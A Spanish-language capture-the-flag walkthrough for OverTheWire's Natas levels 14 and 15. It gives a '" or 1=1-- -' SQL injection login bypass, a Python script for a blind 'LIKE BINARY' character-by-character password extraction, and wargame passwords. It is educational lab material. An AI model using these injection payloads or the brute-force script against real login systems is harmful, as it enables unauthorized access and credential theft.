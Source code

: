 Aquí nos encontramos un formulario por post "username y password" y un "index-source.html" que nos muestra que tanto el nombre como la contraseña se
meteran en una base de datos SQL.
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
El problema es que no hay sanitizacion asi que se puede la trampa. Si pones *" or 1=1-- -* dices que o la contraseña es un texto vacio (falso) o 1=1 (verdadero). Aqui la puerta OR dice que la sentencia es valida con que una sola cosa sea verdadera, y como *1=1*, pues adelante.

```python
import requests
import re

url = 'http://natas14.natas.labs.overthewire.org'
name = 'natas14'
password = 'Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1'
nombre = '" or 1=1-- -'
req = requests.post(url, auth=(name, password), data = {"username":nombre, "password":"test"})
print(req.text)
```
```console
[cucuxii@parrot]~[natas]$: python3 natas14.py
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br>
```
## Natas 15

Ahora nos enfrentamos a una sqli ciega, es decir, no nos dice la respuesta directamente sino que hay que "picarla". Se puede descubrir con
'" or sleep (5)-- - ' en el campo de username, tardando la web en cargar 5 segundos pues. Tambien esta el campo oculto password.  
Seria interesante hacer un time based sqli explitation, pero tambien encontre una manera rapida de fuzzear un posible campo para la contraseña:  
' " o sea campo vacio O password LIKE BINARY "x%" # ' siendo x un trozo inicial de contraseña que se va aumentando. Siempre que sale "this user
doesn exist, la longitud de la respuesta es de 937 caracteres, nos interesa encontrar cuando no pase esto.

```python
import requests
from string import *

target = 'http://natas15.natas.labs.overthewire.org'
chars = ascii_lowercase + ascii_uppercase + digits

password = ""
while len(password) != 32:
        for c in chars:
                sqli = f'" OR password LIKE BINARY "{password}{c}%" #'
                r = requests.post(target, auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data={"username": sqli, "submit":"submit"})
                if (len(r.text) != 937):
                        print ('PASS: ' + password.ljust(32, '*'))
                        password += c
                        break
```
